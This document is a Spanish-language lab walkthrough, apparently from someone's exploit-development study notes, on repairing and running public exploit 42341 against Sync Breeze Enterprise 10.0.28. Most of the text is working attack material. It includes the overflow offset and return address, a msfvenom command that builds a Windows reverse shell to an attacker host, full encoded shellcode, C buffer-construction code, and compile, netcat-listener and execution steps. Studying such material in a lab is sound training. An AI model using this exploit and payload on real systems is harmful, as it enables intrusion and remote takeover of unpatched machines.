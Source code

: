 # Walk: Fixing Buffer Overflow

## Fecha: 11/02/2025
## Host: Windows
## IP: 192.168.182.10
## Objetivo
Comprender el proceso de reparacion e implementacion del exploit **42341** 
## Herramientas
1. tool - 1
2. tool - 2
## Procedimiento y comandos
>La "Formula" del exploit es la siguiente
```
offset = "A" * 780
JMP_ESP = "\x83\x0c\x09\x10"
shellcode = "\x90"*16 + msf_shellcode
exploit = offset + JMP_ESP + shellcode
```
#### Paso 1:  Entendimiento del exploit y el entorno de destino
1. Luego de correr el comando _**"mirror"**_  `searchsploit -m 42341`  analizamos la copia, y notamos que este se ejecutara en un entorno de destino  _**windows**_
```
#include <inttypes.h>
#include <stdio.h>
#include <winsock2.h>
#include <windows.h>
```
2. 

#### Paso 2: Compilacion Cursada del exploit
1. Para compilar el codigo desde Kali debemos ejecutar con la siguiente herramienta:
- `i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32`
>Con la opción -l, podemos indicarle a mingw-w64 que busque la DLL ws2_32 y la incluya en el ejecutable final mediante un enlace estátic
2. Esto Produce un archivo ejecutable `syncbreeze_exploit.exe` 

#### Paso 3: Correccion del exploit
1. El primer aspecto a corregir del exploit es la _**direccion de retorno**_ : En el exploit notamos que el valor de esta es: 
```c
unsigned char retn[] = "\xcb\x75\x52\x73"; //ret at msvbvm60.dll
```
2. Verificamos una _**direccion de retorno**_ valida:
- Iniciamos el servicio en la maquina victima:  **Sync Breeze Enterprise 10.0.28**
- Abrimos Immunity Debugger como administrador  _**File > Attach**_ 
- Seleccionamos _**syncbrs**_ 
- Click en _**Attach**_
- Click _**View > Executable modules**_ y verificamos que `msvbvm60.dll` no se encuentra como direccion de retorno. 
3. Ajustamos el exploit _**.c**_ con el _**.py**_ de expoitDB que esta verificado.
- `unsigned char retn[] = "\x83\x0c\x09\x10"; // 0x10090c83`
>Si no tenemos una dirección de retorno de un exploit desarrollado previamente, tenemos algunas opciones para considerar. La primera opción, y la más recomendada, es recrear el entorno de destino localmente y usar un depurador para determinar esta dirección.
Si esta no es una opción, podríamos usar información de otros exploits disponibles públicamente para encontrar una dirección de retorno confiable que coincida con nuestro entorno de destino.
4. Pasamos a corregir el payload _**shellcode**_:
- Creamos nuestro propio payload con `msfvenom`
```
msfvenom -p windows/shell_reverse_tcp LHOST=IP_ATACANTE LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
- Dejamos esta linea:
`"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" // NOP SLIDE`
- Copiamos el resultado del comando con msfvenom:
```
"\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\x09\x8f\x85\x9f\x83\xee\xfc\xe2\xf4\xf5\x67\x07\x9f"
"\x09\x8f\xe5\x16\xec\xbe\x45\xfb\x82\xdf\xb5\x14\x5b\x83"
"\x0e\xcd\x1d\x04\xf7\xb7\x06\x38\xcf\xb9\x38\x70\x29\xa3"
"\x68\xf3\x87\xb3\x29\x4e\x4a\x92\x08\x48\x67\x6d\x5b\xd8"
"\x0e\xcd\x19\x04\xcf\xa3\x82\xc3\x94\xe7\xea\xc7\x84\x4e"
"\x58\x04\xdc\xbf\x08\x5c\x0e\xd6\x11\x6c\xbf\xd6\x82\xbb"
"\x0e\x9e\xdf\xbe\x7a\x33\xc8\x40\x88\x9e\xce\xb7\x65\xea"
"\xff\x8c\xf8\x67\x32\xf2\xa1\xea\xed\xd7\x0e\xc7\x2d\x8e"
"\x56\xf9\x82\x83\xce\x14\x51\x93\x84\x4c\x82\x8b\x0e\x9e"
"\xd9\x06\xc1\xbb\x2d\xd4\xde\xfe\x50\xd5\xd4\x60\xe9\xd0"
"\xda\xc5\x82\x9d\x6e\x12\x54\xe7\xb6\xad\x09\x8f\xed\xe8"
"\x7a\xbd\xda\xcb\x61\xc3\xf2\xb9\x0e\x70\x50\x27\x99\x8e"
"\x85\x9f\x20\x4b\xd1\xcf\x61\xa6\x05\xf4\x09\x70\x50\xcf"
"\x59\xdf\xd5\xdf\x59\xcf\xd5\xf7\xe3\x80\x5a\x7f\xf6\x5a"
"\x12\xf5\x0c\xe7\x45\x37\x24\x32\xed\x9d\x09\x8e\x3e\x16"
"\xef\xe5\x95\xc9\x5e\xe7\x1c\x3a\x7d\xee\x7a\x4a\x8c\x4f"
"\xf1\x93\xf6\xc1\x8d\xea\xe5\xe7\x75\x2a\xab\xd9\x7a\x4a"
"\x61\xec\xe8\xfb\x09\x06\x66\xc8\x5e\xd8\xb4\x69\x63\x9d"
"\xdc\xc9\xeb\x72\xe3\x58\x4d\xab\xb9\x9e\x08\x02\xc1\xbb"
"\x19\x49\x85\xdb\x5d\xdf\xd3\xc9\x5f\xc9\xd3\xd1\x5f\xd9"
"\xd6\xc9\x61\xf6\x49\xa0\x8f\x70\x50\x16\xe9\xc1\xd3\xd9"
"\xf6\xbf\xed\x97\x8e\x92\xe5\x60\xdc\x34\x65\x82\x23\x85"
"\xed\x39\x9c\x32\x18\x60\xdc\xb3\x83\xe3\x03\x0f\x7e\x7f"
"\x7c\x8a\x3e\xd8\x1a\xfd\xea\xf5\x09\xdc\x7a\x4a";
```
- Todo junto queda:
```
unsigned char shellcode[] =
        "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" // NOP SLIDE
        "\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
        "\x0e\x09\x8f\x85\x9f\x83\xee\xfc\xe2\xf4\xf5\x67\x07\x9f"
        "\x09\x8f\xe5\x16\xec\xbe\x45\xfb\x82\xdf\xb5\x14\x5b\x83"
        "\x0e\xcd\x1d\x04\xf7\xb7\x06\x38\xcf\xb9\x38\x70\x29\xa3"
        "\x68\xf3\x87\xb3\x29\x4e\x4a\x92\x08\x48\x67\x6d\x5b\xd8"
        "\x0e\xcd\x19\x04\xcf\xa3\x82\xc3\x94\xe7\xea\xc7\x84\x4e"
        "\x58\x04\xdc\xbf\x08\x5c\x0e\xd6\x11\x6c\xbf\xd6\x82\xbb"
        "\x0e\x9e\xdf\xbe\x7a\x33\xc8\x40\x88\x9e\xce\xb7\x65\xea"
        "\xff\x8c\xf8\x67\x32\xf2\xa1\xea\xed\xd7\x0e\xc7\x2d\x8e"
        "\x56\xf9\x82\x83\xce\x14\x51\x93\x84\x4c\x82\x8b\x0e\x9e"
        "\xd9\x06\xc1\xbb\x2d\xd4\xde\xfe\x50\xd5\xd4\x60\xe9\xd0"
        "\xda\xc5\x82\x9d\x6e\x12\x54\xe7\xb6\xad\x09\x8f\xed\xe8"
        "\x7a\xbd\xda\xcb\x61\xc3\xf2\xb9\x0e\x70\x50\x27\x99\x8e"
        "\x85\x9f\x20\x4b\xd1\xcf\x61\xa6\x05\xf4\x09\x70\x50\xcf"
        "\x59\xdf\xd5\xdf\x59\xcf\xd5\xf7\xe3\x80\x5a\x7f\xf6\x5a"
        "\x12\xf5\x0c\xe7\x45\x37\x24\x32\xed\x9d\x09\x8e\x3e\x16"
        "\xef\xe5\x95\xc9\x5e\xe7\x1c\x3a\x7d\xee\x7a\x4a\x8c\x4f"
        "\xf1\x93\xf6\xc1\x8d\xea\xe5\xe7\x75\x2a\xab\xd9\x7a\x4a"
        "\x61\xec\xe8\xfb\x09\x06\x66\xc8\x5e\xd8\xb4\x69\x63\x9d"
        "\xdc\xc9\xeb\x72\xe3\x58\x4d\xab\xb9\x9e\x08\x02\xc1\xbb"
        "\x19\x49\x85\xdb\x5d\xdf\xd3\xc9\x5f\xc9\xd3\xd1\x5f\xd9"
        "\xd6\xc9\x61\xf6\x49\xa0\x8f\x70\x50\x16\xe9\xc1\xd3\xd9"
        "\xf6\xbf\xed\x97\x8e\x92\xe5\x60\xdc\x34\x65\x82\x23\x85"
        "\xed\x39\x9c\x32\x18\x60\xdc\xb3\x83\xe3\x03\x0f\x7e\x7f"
        "\x7c\x8a\x3e\xd8\x1a\xfd\xea\xf5\x09\xdc\x7a\x4a";
```
5. Corregimos las IP_DESTINO que encontremos en el exploit:
- `server.sin_addr.s_addr = inet_addr("IP_DESTINO");`
- `"Host: IP_DESTINO\r\n"`

#### Paso 4: Ajuste del Buffer
1. Identificar el Desplazamiento Correcto del EIP:
-   El desplazamiento para sobrescribir el EIP es **780 bytes**.
-   Se utiliza `malloc` para crear el búfer de relleno:
```
int initial_buffer_size = 780; 
char *padding = malloc(initial_buffer_size);
```
2.  Llenar el Búfer con "A" (0x41):
-   Se usa `memset` para llenar el búfer con el carácter "A"
- `memset(padding, 0x41, initial_buffer_size);`
3. Agregar un Byte NULL al Final:
-   El último byte se establece en NULL (`0x00`) para terminar la cadena:
- `memset(padding + initial_buffer_size - 1, 0x00, 1);`
**Problema:** Esto convierte la cadena en **779 bytes** útiles en lugar de **780**, causando una desalineación al sobrescribir el EIP.
4. Corrección de la Desalineación:
-   Aumentar el tamaño del búfer en 1 byte:
```
int initial_buffer_size = 781;
char *padding = malloc(initial_buffer_size);
memset(padding, 0x41, initial_buffer_size);
memset(padding + initial_buffer_size - 1, 0x00, 1);
```
5. Construcción del Búfer Final:
    Se crea un búfer final que concatena las partes de la solicitud y el payload:
```
char *buffer = malloc(buffer_length);
memset(buffer, 0x00, buffer_length);
strcpy(buffer, request_one);
strcat(buffer, content_length_string);
strcat(buffer, request_two);
strcat(buffer, padding);    // Aquí va el relleno corregido
strcat(buffer, retn);       // Dirección de retorno
strcat(buffer, shellcode);  // Shellcode
strcat(buffer, request_three);
```
#### Paso 5: Compilar y ejecutar el Exploit:
>  Compilar el exploit para Windows:
- `i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32`
> Preparar el receptor Netcat:
-  `sudo nc -lvp 443`
 > Ejecutar el exploit usando `wine`:
 - `wine syncbreeze_exploit.exe`
Si todo marcha bien, obtenemos el shell
